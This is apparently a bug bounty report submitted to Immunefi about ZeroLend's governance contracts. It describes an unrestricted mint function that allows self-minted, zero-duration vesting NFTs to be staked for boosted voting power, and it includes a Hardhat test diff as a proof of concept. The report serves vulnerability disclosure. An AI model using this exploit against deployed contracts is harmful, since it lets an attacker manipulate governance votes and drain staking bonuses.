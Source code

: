 
# Manipulation of governance is possible by minting to self

Submitted on Sun Mar 03 2024 22:01:59 GMT-0400 (Atlantic Standard Time) by @dontonka for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28987

Report type: Smart Contract

Target: https://github.com/zerolend/governance

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
VestedZeroNFT::mint is `accessible to anyone`, so anyone can mint a VestedNFT in the moment. This seems to be against the expected behavior as noted as follow by the `IVestedZeroNFT` interface and seems to warrant `Critical` vulnerability for the vote manipulation exploit this could allow.
```
Mints a vesting nft for a user. This is a privileged function meant to only be called by a contract or a deployer
```

## Vulnerability Details
As indicated, it's possible to mint to self and with no duration (linearDuration = 0 and cliffDuration = 0), which mean already all claimable, and then the attacker can transfer the NFT to the `StakingBonus contract` in order to boost his voting power right away. 

## Impact Details
Manipulation of governance is possible by minting to self a VestedNFT with no duration.

## References
https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L63-L100

        
## Proof of concept
## Proof of Concept

Add the following changes in `StakingBonus.test.ts` and run `npm test` command.
The test proove the following:
1) Can mint to self with no duration
2) Boost in voting power confirmed

```diff
     beforeEach(async () => {
       expect(await vest.lastTokenId()).to.equal(0);

-      // deployer should be able to mint a nft for another user
-      await vest.mint(
+      // fund the ant account. This could be earned from a normal vesting NFT or bought on the secondary market, just transfering from deployer here to make this simpler
+      await zero.transfer(ant.address, e18 * 20n);
+      await zero.connect(ant).approve(vest.target, e18 * 20n);
+
+      // Mint from ant account to himself
+      await vest.connect(ant).mint(
         ant.address,
         e18 * 20n, // 20 ZERO linear vesting
         0, // 0 ZERO upfront
-        1000, // linear duration - 1000 seconds
+        0, // linear duration - 0 seconds
         0, // cliff duration - 0 seconds
-        now + 1000, // unlock date
-        true, // penalty -> false
+        0, // unlock date
+        false, // penalty -> false
         0
       );

       expect(await vest.lastTokenId()).to.equal(1);
     });
```


```
-    it("should give a user a bonus if the bonus contract is well funded", async function () {
+    it.only("Any user can mint Vested NFT as long as they own enough $ZERO and boost their voting power.", async function () {
      // fund some bonus tokens into the staking bonus contract
      await zero.transfer(stakingBonus.target, e18 * 100n);

      // give a 50% bonus
      await stakingBonus.setBonusBps(50);

      // stake nft on behalf of the ant
      expect(
        await vest
          .connect(ant)
          ["safeTransferFrom(address,address,uint256)"](
            ant.address,
            stakingBonus.target,
            1
          )
      );

      // the staking contract should've awarded more zero for staking unvested tokens
      // 20 zero + 50% bonus = 30 zero... ->> which means about 29.999 voting power
      expect(await locker.balanceOfNFT(1)).greaterThan(e18 * 29n);
    });
```
